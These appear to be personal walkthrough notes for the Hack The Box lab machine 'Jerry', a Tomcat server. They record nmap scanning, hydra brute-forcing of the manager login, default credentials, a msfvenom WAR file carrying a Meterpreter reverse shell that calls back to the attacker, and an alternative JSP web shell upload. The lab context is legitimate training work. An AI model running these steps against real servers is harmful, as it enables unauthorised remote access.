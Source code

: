 #### Target
10.10.10.95

#### Steps
1. nmap -sC -sV -Pn 10.10.10.95


nmap -sC -sV -oA nmap/jerry 10.10.10.95
-> 8080 http apache tomcat/coyote jsp engine 1.1
-> open 10.10.10.95:8080

/manager/server status -> auth req -> admin:admin (things about tomcat)
/manager/html/list -> 403
/manager/html 	-> 403 (configuration are explain on the 403 page, there are some default username:password base on the documentation also steps to configure) if no default was given then do bruteforce
			-> seclists (apt install seclists) -> find . | get -i tomcat (find from current directory then find 'tomcat' with no case sensitivity)
			-> hydra (bruteforce util) -> hydra -C {found file before using seclist} http-get://10.10.10.95:8080/manager/html(specify what to brute force) 
				-> HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C {found file before using seclist} http-get://10.10.10.95:8080/manager/html (look at burp HTTP history (this show how hydra try all the seclist user:password to bruteforce)) -> filter http history with no 4xx status code -> only 2 left from /manager/html that left which admin:admin and tomcat:s3cret
				-> better way to do -> HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C {found file before using seclist} -s 8080 10.10.10.95 http-get /manager/html -> using tomcat:s3cret /manager/html can be accessed
		-> authorization (decode as base64 (basic http auth, use burp to decode))
		-> inside /manager/html there are deploy option to upload a WAR file / deploy directory or WAR file located on server, and then a application table, which contain list of uploaded WAR files !!-> there is a possibility to upload a WAR file than execute the code to get shell
			-> msfvenom -l payloads -> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=9001 -f war -o uploadThis.war && msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=tun0 LPORT=9001 -f war -o uploadThis2.war (bigger file) (to compare stage and stage lists payloads)
			-> msfdbrun -> search multi/handler -> use explit/multi/handler -> set payload windows/x64/meterpreter/reverse_tcp -> set LHOST tun0 -> set LPORT 9001 -> exploit -j
			-> upload .war file -> manually go to .jsp in browser -> sessions -i 1 -> getuid -> shell --> user flag GET




2nd SOLUTION
find jsp shell
-> git clone securitRiskAdvisor -> vi cmd.jsp -> remove eval statement, change to src="eth0/a.js" -> rm cmd.war -> zip cmd.war cmd.jsp
-> python -m SimpleHTTPServer 80
-> upload the cmd.war file -> specify the cmd.jsp

silent trinity github

